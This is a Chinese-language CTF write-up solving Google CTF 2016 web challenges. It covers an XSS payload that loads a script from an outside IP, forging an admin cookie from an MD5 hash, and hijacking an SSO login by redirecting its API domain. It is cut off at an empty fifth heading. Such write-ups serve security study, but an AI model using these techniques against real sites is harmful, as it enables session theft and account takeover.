 # Google CTF 2016 Web

1. Wallowing Wallabies - Part One
    - 题面上可以使用的功能为零，源码里也没有什么切入点。
    - 查看各种套路，发现`robots.txt`
        ```
        User-agent: *
        Disallow: /deep-blue-sea/
        Disallow: /deep-blue-sea/team/
        # Yes, these are alphabet puns :)
        Disallow: /deep-blue-sea/team/characters
        Disallow: /deep-blue-sea/team/paragraphs
        Disallow: /deep-blue-sea/team/lines
        Disallow: /deep-blue-sea/team/runes
        Disallow: /deep-blue-sea/team/vendors
        ```
    - 发现其中`/deep-blue-sea/team/vendors`可以访问，页面内容为：
      > Hello!
      > If you've been directed to this webpage; you have been requested to file out for vendor level access to our system.
      > To request access; please fill out your form, and an admin will review your application as soon as possible.

    - 预计会有XSS漏洞出现，随便点东西提交：
      > Thank you, your request has been received
      > Your message to the admins is as follows:
      > !!! Expecting to find '<script src=' in your input -- please re-read the level challenge.

    - So赤果果的提示，构造playload `<script src="http://104.131.23.191/xss.js"></script>`

    - [Google CTF – Web 1 – Wallowing Wallabies – Part One](http://buer.haus/2016/05/01/google-ctf-web-1-wallowing-wallabies-part-one/)
2. Wallowing Wallabies - Part One
    - XSS

3. Ernst Echidna
    > Can you hack this website? The robots.txt sure looks interesting.

    - 进入页面，提示注册，先查看`robots.txt`：`Disallow: /admin`
    - 访问`/admin`，得到`Sorry, this interface is restricted to administrators only`
    - 查看Cookie：`md5-hash: 912ec803b2ce49e4a541068d495ab570`，为刚才注册用户名的MD5,
    - 直接把Cookie改为admin的MD5`912ec803b2ce49e4a541068d495ab570`，得到flag

4. Dancing Dingoes
    > We're interested in finding out what information is stored on this website. We've already obtained the username "proff" and the password "strobe.c", but can't work out how to access the "admin" user. Any ideas?

    - 采用题目给予的用户名登录
    - 抓包看登录过程，发现有个指向`https://dancing-dingoes.ctfcompetition.com/api/users/login?domain=dancing-dingoes.ctfcompetition.com`的请求
    - 修改其参数进行重放，得到错误：`parsing JSON - invalid character '<' looking for beginning of value`
    - 再改到一个不存在的地址，得到错误`fetching current SSO user information - Get rest/v1/user/current: API error 7 (urlfetch: DNS_ERROR)`
    - 访问其API，获得API格式`{ "UserID": "proff" }`
    - 所以这个登录过程是通过请求一个API来获得UserID，将其指向一个在`rest/v1/user/current`地址下UserID为admin的域名即可。
    - 域名需要通过https访问

5. Wallowing Wallabies - Part Three
